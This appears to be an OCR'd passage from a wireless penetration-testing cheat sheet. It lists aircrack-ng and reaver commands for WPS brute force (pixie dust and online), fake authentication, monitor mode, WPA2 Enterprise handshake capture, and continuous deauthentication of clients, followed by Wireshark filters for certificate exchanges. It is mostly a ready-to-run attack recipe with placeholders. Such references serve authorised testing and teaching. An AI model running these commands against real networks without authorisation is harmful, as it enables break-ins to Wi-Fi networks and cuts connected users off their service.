 ```
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```

**Offline brute force (pixie dust)**

```
reaver -i wlan0 -b BSSID -SNLAvv  -c 1 -K
```

**Online brute force**

```
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```

# **WPA/WPA2/WPA3 Testing**

Steps for testing security on networks with WPA/WPA2/WPA3 encryption, including setting up rogue APs and capturing handshakes:

**WPA2 Enterprise**

Follow these steps to set up wireless monitoring and perform the attack.

**Step 1: Activate monitoring mode**

```
airmon-ng check kill && airmon-ng start <interface>
```

**Step 2: Check AUTH column**

```
airodump-ng <interface>
```

*Note: The AUTH column will say MGT.*

**Step 3: Capture the handshake**

```
sudo airodump-ng -c channel -w ESSID interface
```

**Step 4: Deauthenticate the client to capture the handshake**

```
aireplay-ng -0 0 -a ESSID -c client_ESSID interface
```

**Step 5: Analyze with Wireshark or tshark**

After gathering the BSSID, ESSID, and channel:

- Use Wireshark or tshark with filters:or
    
    ```
    wlan.bssid==E8:9C:12:02:66:AA && eap && tls.handshake.certificate
    ```
    
    ```
    tls.handshake.type == 11,3
    ```
    